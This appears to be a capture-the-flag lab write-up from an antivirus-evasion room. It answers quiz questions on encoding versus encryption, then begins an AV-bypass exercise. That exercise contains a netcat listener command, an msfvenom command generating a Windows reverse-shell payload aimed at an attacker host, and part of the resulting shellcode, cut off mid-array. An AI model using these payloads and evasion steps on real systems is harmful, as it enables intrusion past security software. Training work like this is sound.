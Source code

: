 ## TASK 7 : Introduction to Encoding and Encryption

### Is encoding shellcode only enough to evade Antivirus software? (yea/nay) 

    "Similarly, when it comes to AV evasion techniques, encoding is also used to hide shellcode strings within a binary. However, encoding is not enough for evasion purposes. Nowadays, AV software is more intelligent and can analyze a binary, and once an encoded string is found, it is decoded to check the text's original form."

Answer : NAY

### Do encoding techniques use a key to encode strings or files? (yea/nay)

    "Encoding is the process of changing the data from its original state into a specific format depending on the algorithm or type of encoding. It can be applied to many data types such as videos, HTML, URLs, and binary files (EXE, Images, etc.)."

Encoding is like a translation.

Answer : NAY

### Do encryption algorithms use a key to encrypt strings or files? (yea/nay)

    "Like encoding, encryption techniques are used for various purposes, such as storing and transmitting data securely, as well as end-to-end encryption. Encryption can be used in two ways: having a shared key between two parties or using public and private keys."

Answer : YEA

## TASK 8 : Shellcode Encoding and Encryption
### Try to use this technique (combining encoding and encryption) on the THM Antivirus Check at http://10.10.142.2/. Does it bypass the installed AV software? 
First, we need to set up a netcat listener and generate our combined payload in C# format :

Terminal 1:
```console
root@ip-10-10-8-119:~/Desktop# nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
```
{: .nolineno }

Terminal 2:
```console

root@ip-10-10-8-119:~/Desktop# msfvenom LHOST=10.10.8.119 LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of csharp file: 2362 bytes
byte[] buf = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
```